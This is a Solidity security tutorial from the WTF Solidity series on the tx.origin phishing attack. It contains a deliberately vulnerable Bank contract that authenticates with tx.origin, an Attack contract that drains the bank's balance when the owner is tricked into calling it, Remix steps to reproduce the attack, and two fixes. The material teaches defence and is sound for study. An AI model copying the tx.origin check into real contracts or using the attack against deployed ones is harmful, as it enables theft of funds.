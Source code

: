 ```yaml
---
title: S12. tx.origin Phishing Attack
tags:
    - solidity
    - security
    - tx.origin
---
```


# WTF Solidity S12. tx.origin Phishing Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the `tx.origin` phishing attack and prevention methods in smart contracts.

## `tx.origin` Phishing Attack

When I was in middle school, I loved playing games. However, the game developers implemented an anti-addiction system that only allowed players who were over 18 years old, as verified by their ID card number, to play without restrictions. So, what did I do? I used my parent's ID card number to bypass the system and successfully circumvented the anti-addiction measures. This example is similar to the `tx.origin` phishing attack.

In Solidity, `tx.origin` is used to obtain the original address that initiated the transaction. It is similar to `msg.sender`. Let's differentiate between them with an example.

If User A calls Contract B, and then Contract B calls Contract C, from the perspective of Contract C, `msg.sender` is Contract B, and `tx.origin` is User A. If you are not familiar with the `call` mechanism, you can read [WTF Solidity 22: Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/22_Call_en/readme.md).

![](./img/S12_1.jpg)

Therefore, if a bank contract uses `tx.origin` for identity authentication, a hacker can deploy an attack contract and then induce the owner of the bank contract to call it. Even if `msg.sender` is the address of the attack contract, `tx.origin` will be the address of the bank contract owner, allowing the transfer to succeed.

## Vulnerable Contract Example

### Bank Contract

Let's take a look at the bank contract. It is very simple and includes an `owner` state variable to record the contract owner. It has a constructor and a `public` function:

- Constructor: Assigns a value to the `owner` variable when the contract is created.
- `transfer()`: This function takes two parameters, `_to` and `_amount`. It first checks `tx.origin == owner` and then transfers `_amount` ETH to `_to`. **Note: This function is vulnerable to phishing attacks!**

```solidity
contract Bank {
    address public owner; // Records the owner of the contract

    // Assigns the value to the owner variable when the contract is created
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Check the message origin !!! There may be phishing risks if the owner is induced to call this function!
        require(tx.origin == owner, "Not owner");
        // Transfer ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Attack Contract

Next is the attack contract, which has a simple attack logic. It constructs an `attack()` function to perform phishing and transfer the balance of the bank contract owner to the hacker. It has two state variables, `hacker` and `bank`, to record the hacker's address and the address of the bank contract to be attacked.

It includes `2` functions:

- Constructor: Initializes the `bank` contract address.
- `attack()`: The attack function that requires the `owner` address of the bank contract to call. When the `owner` calls the attack contract, the attack contract calls the `transfer()` function of the bank contract. After confirming `tx.origin == owner`, it transfers the entire balance from the bank contract to the hacker's address.

```solidity
contract Attack {
    // Beneficiary address
    address payable public hacker;
    // Bank contract address
    Bank bank;

    constructor(Bank _bank) {
        // Forces the conversion of the address type _bank to the Bank type
        bank = Bank(_bank);
        // Assigns the beneficiary address to the deployer's address
        hacker = payable(msg.sender);
    }

    function attack() public {
        // Induces the owner of the Bank contract to call, transferring all the balance to the hacker's address
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduce on `Remix`

**1.** Set the `value` to 10ETH, then deploy the `Bank` contract, and the owner address `owner` is initialized as the deployed contract address.

![](./img/S12-2.jpg)

**2.** Switch to another wallet as the hacker wallet, fill in the address of the bank contract to be attacked, and then deploy the `Attack` contract. The hacker address `hacker` is initialized as the deployed contract address.

![](./img/S12-3.jpg)

**3.** Switch back to the `owner` address. At this point, we were induced to call the `attack()` function of the `Attack` contract. As a result, the balance of the `Bank` contract is emptied, and the hacker's address gains 10ETH.

![](./img/S12-4.jpg)

## Prevention Methods

Currently, there are two main methods to prevent potential `tx.origin` phishing attacks.

### 1. Use `msg.sender` instead of `tx.origin`

`msg.sender` can obtain the address of the direct caller of the current contract. By verifying `msg.sender`, the entire calling process can be protected from external attack contracts.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verify `tx.origin == msg.sender`

If you must use `tx.origin`, you can also verify that `tx.origin` is equal to `msg.sender`. This can prevent external contract calls from interfering with the current contract. However, the downside is that other contracts will not be able to call this function.

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## Summary

In this lesson, we discussed the `tx.origin` phishing attack in smart contracts. There are two methods to prevent it: using `msg.sender` instead of `tx.origin`, or checking `tx.origin == msg.sender`. It is recommended to use the first method, as the latter will reject all calls from other contracts.
